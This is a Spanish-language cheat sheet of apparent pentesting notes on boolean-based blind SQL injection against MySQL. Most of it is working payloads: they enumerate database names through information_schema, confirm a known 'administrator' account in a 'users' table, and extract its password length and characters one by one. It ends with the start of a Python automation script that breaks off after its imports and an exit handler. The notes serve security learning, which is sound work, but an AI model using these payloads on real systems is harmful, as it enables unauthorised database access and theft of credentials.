 ## Inyecciones Blind con respuesta condicional 

-   **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)
Cuando estas en una web a ciegas, tenemos dos formas de hacerlo, por **Tiempo** o **Boolean**.

```bash 
# Esto funciona cuando hay un error visual en la pagina web 

❯ ' and substr((Consulta), Inicio, longitud))=''                          # Forma de usar el substr
	# Longitud = Los caracteres que vamos a extraer
	# Inicio = Es la posicion inicial del caracter a comparar 
	# Consulta = Es la peticion que vamos a hacer

❯ ' and substring((select schema_name from information_schema.schemata limit 0,1),1,1)='A'      # Bases MYSQL
	# Donde 0 indica la primer base de datos y es el valor que ira variando, esto dependiendo de las bases de datos que existan
	# El segundo '1' es la posicion de la letra en cada palabra y este valor ira variando para ir avanzando a las sig. posiciones de la palabra
	# 'A' es la letra a la que queremos igualar la consulta 
```

```bash 
# Encontrar el usuario de la tabla conocida 

# Si el usuario de la tabla 'users' se llama 'administrator' devuelve a, por lo tanto a=a = True
❯ ' and (select 'a' form users where username='administrator')='a'-- -

#  Confirmar cada caracter del usuario 'administrator' en la tabla 'users', el valor despues del username ira variando al momento que vayamos encontrando cada letra. 
❯ ' and (select substring(username,1,1) from users where username='administrator')='a' -- -  
❯ ' and (select substring(username,2,1) from users where username='administrator')='d' -- -


# Conocer la longitud de la passwd. Si la longitud de la password es mayor a 5 y el usuario de llama 'administrator' de la tabla 'users'devuelve una 'a', por lo tanto a=a = True
❯ ' and (select 'a' from users where username='administrator' and length(password)>5)='a'-- -
	# Podemos ir variando el numero hasta dar con la longitid (>,<,<=,=,>=)
	

# Obtener cada caracter de la password, del usuario 'adminnistrator' en la tabla 'users'. Si la primer letra de la password es la 'a' entonces nos dara un a=a = True, el valor despues del username ira variando al momento que vayamos encontrando cada letra. 
❯ ' and (select substring(password,1,1) from users where username='administrator')='a' -- - 
❯ ' and (select substring(password,2,1) from users where username='administrator')='b' -- - 
```

```python
# Obtener la passwd de un usuario conocido en una DB conocida 

#!/usr/bin/python3

from pwn import *
import requests
import signal
import sys
import time
import string
import pdb


def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
```